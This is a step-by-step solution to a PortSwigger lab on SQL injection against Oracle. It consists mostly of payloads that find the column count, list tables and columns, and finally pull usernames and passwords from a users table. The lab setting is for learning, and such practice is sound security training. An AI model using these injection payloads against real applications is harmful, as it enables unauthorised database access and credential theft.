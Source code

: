 # [SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

Step - 1
---
```
'
```
Error because Single Quotes

Step - 2
---
```
'--
```
No MySQL

Step - 3
---
```
' ORDER BY 3--
```
Error because 2 Column

Step - 4
---
```
' UNION SELECT 'a','a' FROM dual--
```
2 String Column

Step - 5
---
```
' UNION SELECT 'a',table_name FROM all_tables--
```
1. table_name: USERS_JASUOU

Step - 6
---
```
' UNION SELECT 'a',column_name FROM all_tab_columns WHERE table_name='USERS_JASUOU'--
```
1. column_n_ame: USERNAME_GSFFNH and PASSWORD_DITWXL

Step - 7
---
```
' UNION SELECT 'a',USERNAME_GSFFNH || '~' || PASSWORD_DITWXL FROM USERS_JASUOU--
```